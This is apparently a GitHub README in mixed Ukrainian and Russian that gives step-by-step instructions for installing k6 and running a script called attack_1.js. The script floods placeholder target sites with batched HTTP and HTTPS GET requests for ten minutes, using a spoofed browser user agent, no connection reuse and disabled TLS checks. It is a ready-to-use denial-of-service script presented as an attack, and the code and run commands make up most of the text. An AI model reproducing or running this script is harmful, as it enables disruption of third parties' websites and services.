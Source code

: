 якщо у вас мак, то устанапвливаем k6 через 
```
brew install k6
```
создайте новый файл ./attack_1.js

вставьте этот листинг

```
import { check } from 'k6';
import http from 'k6/http';

export let options = {
  insecureSkipTLSVerify: true,
  noConnectionReuse: true,
  userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0',
  vus: 10, // target
  duration: '10m',
  dns: {
    'ttl': '0s',
    'select': 'roundRobin',
    'policy': 'onlyIPv4',
  },
}

export default function() {
  let targets = {
    '<url>': '<ip>'
  }
  let reqs = []

  for (let k in targets) {
    reqs.push(
      {
        'method': 'GET',
        'url': `https://${targets[k]}`,
        'params': {
          'headers': {
            'Host': `${k}`,
            'referrer': "",
          }
        }
      }
    )
    reqs.push(
      {
        'method': 'GET',
        'url': `http://${targets[k]}`,
        'params': {
          'headers': { 'Host': `${k}`,
          'referrer': "",
          }
        }
      }
    )
  }
  http.batch(reqs);
};
```

запустите

```
k6 run ./attack_1.js
```





на другие ОС





```
git clone https://github.com/grafana/k6.git
cd k6
```

создайте новый файл ./samples/attack_1.js

вставьте тот же листинг

запустите

```
k6 run ./samples/attack_1.js
```
